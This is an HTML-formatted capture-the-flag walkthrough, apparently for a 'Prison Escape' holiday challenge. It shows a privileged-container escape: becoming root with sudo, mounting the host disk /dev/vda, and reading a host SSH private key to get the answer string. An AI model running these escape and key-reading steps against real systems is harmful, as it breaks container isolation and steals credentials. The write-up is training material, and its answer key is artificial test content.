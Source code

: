 # Prison Escape

<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 align=left width=808>
 <tr>
  <td width=808 colspan=2 valign=top style='width:605.85pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyNormalStyle><img border=0 src="../../images/blog_images/image094.png">Prison
  Escape 
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <img
  border=0 width=27 height=25 id="Picture 43"
  src="../../images/blog_images/image039.png">Elfen
  Ring 
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <img
  border=0 width=25 height=24 id="Picture 347"
  src="../../images/blog_images/image095.png"
  alt="A picture containing clipart&#10;&#10;Description automatically generated">Tinsel
  Upatree</p>
  </td>
 </tr>
 <tr style='height:100.6pt'>
  <td width=200 rowspan=2 valign=top style='width:150.3pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:100.6pt'>
  <p class=MyNormalStyle><img border=0 width=186 height=189 id="Picture 350"
  src="../../images/blog_images/image096.png"
  alt="A picture containing timeline&#10;&#10;Description automatically generated"></p>
  </td>
  <td width=607 valign=top style='width:455.55pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:100.6pt'>
  <p class=MyNormalStyle><u><img border=0 src="../../images/blog_images/image097.png"
  alt="Graphical user interface, text&#10;&#10;Description automatically generated"></u></p>
  </td>
 </tr>
 <tr style='height:39.85pt'>
  <td width=607 valign=top style='width:455.55pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:39.85pt'>
  <p class=MyNormalStyle><u>Hint from Bow Ninecandle<br>
  </u>1) Were you able to mount up? If so, users' home/ directories can be a great
  place to look for secrets...<br>
  2) When users are over-privileged, they can often act as root. When
  containers have too many permissions, they can affect the host!</p>
  </td>
 </tr>
</table>


<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 align=left width=808 style='
  margin-xxxleftxxx:6.75pt;  margin-xxxleftyyy:6.75pt'>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>We can escalate to root using sudo</p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
    ```python 
    sudo -l
    sudo -i 
    whoami
    ```
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'>
  <img src="../../images/blog_images/image098.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>The container is running in privileged mode. So we can run
  the below to list disk partitions on the host.</p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  fdisk -l
  ```
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'><img
  border=0 id="Picture 354"
  src="../../images/blog_images/image099.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'>&nbsp;</p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold style=' margin-xxxbottom:0in;line-height:normal'><b><span
  style='font-family:"Cambria",serif'>Make a folder under /mnt and mount
  /dev/vda to it</span></b></p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  mkdir /mnt/host_drive
  mount /dev/vda /mnt/host_drive
  ```
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyCodeStyle><img border=0 width=487 height=32 id="Picture 355"
  src="../../images/blog_images/image100.png"></p>
  </td>
 </tr>
</table>

<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 align=left width=808 style='
  margin-xxxleftxxx:6.75pt;  margin-xxxleftyyy:6.75pt'>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold><b>The
  host partition is mounted successfully, and we can see the file jail.key.priv
  in the /home/jailer/.ssh directory </b></p>
  </td>
 </tr>
 <tr>
  <td width=792 valign=top style='width:593.75pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  ls /mnt/host_drive/home -lR -lah
  ```
  </td>
 </tr>
</table>


<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 align=left width=808 style='
  margin-xxxleftxxx:6.75pt;  margin-xxxleftyyy:6.75pt'>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <img
  border=0 
  src="../../images/blog_images/image101.png">
  </td>
 </tr>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Read the contents of the file jail.key.priv.</p>
  </td>
 </tr>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyCodeStyle>cat /mnt/host_drive/home/jailer/ssh/jail.key.priv</p>
  </td>
 </tr>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'><img src="../../images/blog_images/image102.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Answer : 082bb339ec19de4935867</p>
  </td>
 </tr>
 <tr>
  <td width=793 valign=top style='width:594.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>The objective is now completed <br>
  and we get 25 coins as well<br>
  <img border=0 width=347 height=60 id="Picture 13"
  src="../../images/blog_images/image103.png"><img
  border=0 width=323 height=60 id="Picture 14"
  src="../../images/blog_images/image104.png"></p>
  </td>
 </tr>
</table>